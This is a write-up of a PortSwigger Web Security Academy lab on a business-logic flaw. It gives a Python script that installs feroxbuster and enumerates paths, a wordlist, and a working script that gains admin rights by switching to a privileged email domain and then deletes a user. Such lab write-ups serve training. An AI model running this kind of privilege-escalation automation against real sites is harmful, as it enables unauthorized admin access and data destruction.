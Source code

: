 ```yaml
--- 
title: "Inconsistent Security Controls"
author: ""
date: 2024-06-01T17:56:32+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a4400b5047397ff8067d59100b100bd.web-security-academy.net

#### Enumeration
Access the lab, add the domain to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page, then request all embedded links via Burp proxy using the scripts below.

```python
import os
import platform
import subprocess
import sys

def check_binary(binary_name):
  if sys.platform.startswith('linux') or sys.platform.startswith('darwin'):
    command = ['which', binary_name]
  elif sys.platform.startswith('win'):
    command = ['where', binary_name]
  else:
    print("Unsupported operating system")
    return

  try:
    subprocess.check_output(command)
    return True
  except subprocess.CalledProcessError:
    print(f"{binary_name} is not installed.")
    return False

def install_binary(binary_url, binary_name):
  os_name = platform.system().lower()
  binary_file = f"{binary_name}.zip" if os_name == 'windows' else f"{binary_name}.tar.gz"
  
  # Check if binary exists
  if not check_binary(binary_name):
    # Download Binary File if not exist
    if not os.path.exists(binary_file):
      if os_name == 'linux':
        download_command = f"curl -L {binary_url}/x86_64-linux-{binary_name}.tar.gz -o {binary_file}"
      elif os_name == 'darwin':
        download_command = f"curl -L {binary_url}/x86_64-macos-{binary_name}.tar.gz -o {binary_file}"
      elif sys.platform.startswith('win'):
        download_command = f"powershell -Command 'Invoke-WebRequest {binary_url}/x86_64-windows-{binary_name}.exe.zip -OutFile {binary_file}'"
      else:
        print("Unsupported operating system")
        return

      try:
        subprocess.run(download_command, shell=True, check=True)
        print(f"{binary_name} downloaded successfully")
      except subprocess.CalledProcessError as e:
        print(f"Failed to download {binary_name}: {e}")

    # Install Binary
    if os.path.exists(binary_file):
      if os_name in ['linux', 'darwin']:
        extract_command = f"sudo tar -C /usr/local/bin/ -xzf {binary_file} {binary_name} && sudo chmod 775 /usr/local/bin/{binary_name}"
      elif sys.platform.startswith('win'):
        extract_command = f"Powershell -Command \"Expand-Archive -Path {binary_file} -DestinationPath . ; Move-Item -Path .\\{binary_name}.exe -Destination 'C:\\Windows\\'\""
      else:
        print("Unsupported operating system")
        return

      try:
        subprocess.run(extract_command, shell=True, check=True)
        print(f"{binary_name} installed successfully")
      except subprocess.CalledProcessError as e:
        print(f"Failed to install {binary_name}: {e}")

      # Clean up downloaded binary file
      try:
        cleanup_command = f"rm {binary_file}" if os_name != 'windows' else f"del {binary_file}"
        subprocess.run(cleanup_command, shell=True, check=True)
        print(f"Cleaned up {binary_file}")
      except subprocess.CalledProcessError as e:
        print(f"Failed to clean up {binary_file}: {e}")
  else:
    print(f"{binary_name} is already installed.")

def enumerate_path(endpoint, wordlist_path):
  print("Enumerating paths...")
  fuzz_command = f"feroxbuster -u {endpoint} -w {wordlist_path} -C 404 --proxy http://127.0.0.1:8080 --insecure --quiet --no-state --auto-tune"
  process = subprocess.Popen(fuzz_command.split(), stdout=subprocess.PIPE, stderr=subprocess.STDOUT, text=True)
  for line in process.stdout:
    print(line.strip())

def main():
  binary_name = "feroxbuster"
  binary_url = "https://github.com/epi052/feroxbuster/releases/download/v2.10.2"
  endpoint = "https://0a4400b5047397ff8067d59100b100bd.web-security-academy.net/"
  wordlist_path = "wordlist.txt"
  install_binary(binary_url, binary_name)
  enumerate_path(endpoint, wordlist_path)

if __name__ == "__main__":
  main()
```
The custom word list used for the above enumeration.
```text
accounts
admin
administrator
api
users
products
product
```

![Enumeration](/images/bizlogic3/01-enumerate-inconsistent-security-controls.png "Enumeration")  

#### Exploration
Stacking BurpSuite and the Browser with FoxyProxy extension for Burp turned on, explore the application by registering an account and logging into the application. Notice an email update feature.

![Exploration](/images/bizlogic3/02-explore-inconsistent-security-controls.png "Exploration") 

#### Exploitation
Now change your user to `@dontwannacry.com` email host and observe the 'Admin Panel' tab active. Click on it then delete the Carlos user. This exploit can be automated with the script below
```python
from bs4 import BeautifulSoup
from urllib.parse import urlparse
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

class SiteInteraction:
  def __init__(self, base_url, proxies=None):
    self.base_url = base_url
    self.session = requests.Session()
    self.session.proxies = proxies if proxies else {}

  def get_csrf_token(self, url):
    response = self.session.get(url, verify=False)
    soup = BeautifulSoup(response.content, 'html.parser')
    csrf_token = soup.find('input', {'name': 'csrf'})['value']
    return csrf_token
  
  def get_email_url(self):
    response = self.session.get(self.base_url, verify=False)
    email_client_url = BeautifulSoup(response.content, 'html.parser').find('a', {'id': 'exploit-link'}).get('href')
    return email_client_url

  def register(self, username, password):
    register_url = self.base_url + '/register'
    csrf_token = self.get_csrf_token(register_url)
    emailhost = urlparse(self.get_email_url()).hostname
    data = {
      'username': username,
      'email': username + '@' + emailhost,
      'password': password,
      'csrf': csrf_token
    }
    response = self.session.post(register_url, data=data, verify=False)
    return response

  def email_activation(self):
    response = self.session.get(self.get_email_url(), verify=False)
    soup = BeautifulSoup(response.content, 'html.parser')
    activation_link = soup.find('a', href=True, string=lambda text: text and "temp-registration-token" in text)['href']
    activation_response = self.session.get(activation_link, verify=False)
    return activation_response

  def login(self, username, password):
    login_url = self.base_url + '/login'
    csrf_token = self.get_csrf_token(login_url)
    data = {
      'username': username,
      'password': password,
      'csrf': csrf_token
    }
    response = self.session.post(login_url, data=data, verify=False)
    return response

  def update_email(self, new_email):
    user_url = self.base_url + f'/my-account?id={username}'
    change_email_url = self.base_url + '/my-account/change-email'
    csrf_token = self.get_csrf_token(user_url)
    data = {
      'email': new_email,
      'csrf': csrf_token
    }
    response = self.session.post(change_email_url, data=data, verify=False)
    return response

  def delete_user(self, username):
    admin_delete_url = self.base_url + f'/admin/delete?username={username}'
    response = self.session.get(admin_delete_url, verify=False)
    return response

# Example usage:
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
url = 'https://0a4400b5047397ff8067d59100b100bd.web-security-academy.net'
site = SiteInteraction(url, proxies=proxies)
username = 'bug-hunter'
password = 'P@7sW0)d'
new_email = username + '@dontwannacry.com'

# Register a user
registration_response = site.register(username, password)
print("Registration response:", registration_response.status_code)

# Activate email
email_activation_response = site.email_activation()
print("Email activation response:", email_activation_response.status_code)

# Login
login_response = site.login(username, password)
print("Login response:", login_response.status_code)

# Update email
update_email_response = site.update_email(new_email)
print("Update email response:", update_email_response.status_code)

# Delete user
delete_user_response = site.delete_user('carlos')
print("Delete user response:", delete_user_response.status_code)
```
![Exploitation](/images/bizlogic3/03-exploit-inconsistent-security-controls.png "Exploitation") 

![Solution](/images/bizlogic3/04-lab-solution.png "Solution")   

#### Resources
- https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-security-controls
- https://github.com/knoxknot/portswigger/tree/main/business-logic/03-inconsistent-security-controls